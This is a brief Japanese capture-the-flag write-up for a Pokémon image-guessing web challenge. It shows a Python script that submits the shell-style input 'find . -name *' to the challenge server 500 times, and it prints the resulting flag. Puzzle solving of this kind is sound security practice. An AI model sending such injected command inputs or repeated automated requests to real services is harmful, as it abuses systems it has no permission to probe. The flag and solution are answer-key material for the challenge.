


# Writeup

ページにアクセスすると、ポケモンの画像と入力フォームが表示される。



ソースコードが与えられていないので詳細は分からないが、ランダムに表示される画像のファイル名を当てると予想。試しに、`find . -name *`と入力したところカウントが1進んだ。



500回送るとフラグが表示された。

```py
import requests

data = {'guess':'find . -name *'}
with requests.Session() as session:
    r = session.get("http://104.197.195.221:8084/")
    for _ in range(500):
        r = session.post("http://104.197.195.221:8084/",data=data)
    print(r.text)
```

<!-- UMASS{G0tt4_c4tch_th3m_4ll_17263548} -->